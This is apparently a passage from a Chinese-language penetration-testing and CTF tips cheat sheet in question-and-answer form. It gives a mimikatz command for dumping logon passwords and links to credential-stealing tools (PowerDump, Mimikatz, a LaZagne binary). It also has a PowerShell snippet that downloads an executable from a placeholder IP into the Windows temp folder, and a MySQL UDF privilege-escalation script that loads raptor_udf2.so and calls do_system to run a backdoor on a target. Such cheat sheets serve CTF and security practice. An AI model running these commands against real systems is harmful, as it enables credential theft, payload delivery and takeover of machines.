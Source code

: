 [PowerDump](https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-PowerDump.ps1)[Mimikatz](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Invoke-Mimikatz.ps1)

```
#使用mimikatz
mimi.exe "privilege::debug" "sekurlsa::logonpasswords full" exit
```



### **5. 运行32位LaZagne ?**

[LaZagne](https://github.com/AlessandroZ/LaZagne)

https://github.com/therealunicornsecurity/ctf_data/blob/main/laz32.exe

### **6. 想下载东西，但只有Powershell 2.0的版本?**

```
$url = "<http://IP/file.exe>"
$path = "C:\\WINDOWS\\TEMP\\file.exe"
# param([string]$url, [string]$path)

if(!(Split-Path -parent $path) -or !(Test-Path -pathType Container (Split-Path -parent $path))) {
$targetFile = Join-Path $pwd (Split-Path -leaf $path)
}

(New-Object Net.WebClient).DownloadFile($url, $path)
$path
```

### **7. 想列出Windows上的开放端口?**

```
# TCP
Get-NetTCPConnection -State Listen| select LocalAddress,LocalPort,@{Name="Process";Expression={(Get-Process -Id $_.OwningProcess).ProcessName}}
# UDP
Get-NetUDPEndpoint | select LocalAddress,LocalPort,@{Name="Process";Expression={(Get-Process -Id $_.OwningProcess).ProcessName}}
```

### **8.  想在32位的Windows机器上运行IDA Free?**

https://www.scummvm.org/news/20180331/

### **9. 想利用一个有特权的MySQL进程?**

我不会比这里做的更好地解释它:

https://www.exploit-db.com/docs/english/44139-mysql-udf-exploitation.pdf

但我可以将其自动化:

```
# exploit.sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select * from mysql.func;
select do_system('<run backdoor>');
mysql -u root -p<password> -h <target> < exploit.sql
```
